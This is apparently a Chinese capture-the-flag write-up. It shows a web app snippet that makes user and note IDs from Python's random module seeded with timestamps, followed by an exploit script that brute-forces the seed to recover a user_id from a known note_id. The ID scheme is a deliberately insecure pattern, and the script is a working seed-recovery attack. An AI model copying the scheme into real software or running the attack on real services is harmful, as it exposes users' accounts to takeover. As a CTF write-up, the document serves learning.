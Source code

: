 ```
if user:
    user_id = user.user_id
else:
    timestamp = round(time.time(), 4)
    random.seed(timestamp)
    user_id = get_random_id()
    user = User(username=username, user_id=user_id)
    db.session.add(user)
    db.session.commit()
    session['username'] = username

timestamp = round(time.time(), 4)

post_at = datetime.datetime.fromtimestamp(timestamp, tz=datetime.timezone.utc).strftime('%Y-%m-%d %H:%M UTC')

random.seed(user_id + post_at)
note_id = get_random_id() 
```

note给出的时间不带秒和毫秒，round（*，4）保留了4位小数，创建user_id的时间可能比post_at早几百毫秒，因此需要循环60*10000*10次。

exp：

```
import time
import random,string
import datetime

true_note_id = "lj40n2p9qj9xkzy3zfzz7pucm6dmjg1u"

def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])

def crack(s,milis,pre):

    year = 2021
    month = 1
    day = 15
    hour = 2+8
    minute = 29

    without_timezone = datetime.datetime(year,month,day,hour,minute, s, milis)

    timestamp2 = round(without_timezone.timestamp(),4)

    timestamp1 =  round((timestamp2*10000-pre)/10000,4)

    random.seed(timestamp1)
    user_id = get_random_id()

    post_at = datetime.datetime.fromtimestamp(timestamp2, tz=datetime.timezone.utc).strftime('%Y-%m-%d %H:%M UTC')

    random.seed(user_id + post_at)
    note_id = get_random_id()

    if note_id==true_note_id:
        print(user_id)
        print(note_id)
        return True

    return False
```
